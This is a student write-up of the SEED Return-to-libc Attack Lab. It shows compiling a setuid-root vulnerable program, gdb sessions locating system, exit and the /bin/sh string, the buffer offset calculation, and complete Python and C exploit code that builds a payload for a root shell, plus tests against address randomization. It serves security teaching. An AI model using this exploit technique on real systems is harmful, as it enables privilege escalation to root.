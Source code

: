 ```yaml
---
title: Return-to-libc Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of the executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `/bin/sh` is `0xbffffdef`.

**Note**: Don't use `gdb` to get the address of string `/bin/sh` in `libc`. Beacause `gbd` will inject something to the stack and heap for debugging, so the address probably become different in runtime.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(40)) #**Note**: it must be modified there. the origin length of     `content` is 300, which may cause `retlib` return directly without launching a root shell. Please change the length to a smaller int.

X = 32
sh_addr = 0xbffffdef      # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

Y = 24
system_addr = 0xb7e42da0  # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

Z = 28
exit_addr = 0xb7e369d0  # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the templete and source code offered by the official site.

Or use the C version `exploit.c`:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");

    /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
    *(long *)&buf[32] = 0xbffffdef; //  "/bin/sh"
    *(long *)&buf[24] = 0xb7e42da0; //  system()
    *(long *)&buf[28] = 0xb7e369d0; //  exit()

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```

Finally I got

![](root_shell.png)

## Attack variation 1

The root shell can also be launched. But when exiting the shell, the `retlib` can not be terminated properly. It issues a `Segmentation fault` error.

## Attack variation 2

```shell
mv retlib newretlib
./newretlib
zsh:1: command not found: h
Segmentation fault
```

Before environment variables are pushed into the stack, the program's name is pushed in first. So the location of `/bin/sh` will shift if the length of program's name changes.

# Task 4

It failed. 

`X`,`Y` and `Z` are determined by the relative distance to `ebp`, which is not influenced by the address randomization.

But the address of `system`,`exit`, and `/bin/sh` are updated.

```shell
./env666
/bin/sh is in bfa0cdef
rm badfile
touch badfile
gdb -q retlib
gdb-peda$ set disable-randomization on
gdb-peda$ r
Starting program: /home/seed/Documents/return-to-libc/retlib 
Returned Properly
[Inferior 1 (process 6081) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7616da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb760a9d0 <__GI_exit>
gdb-peda$ quit
```

# Task 5

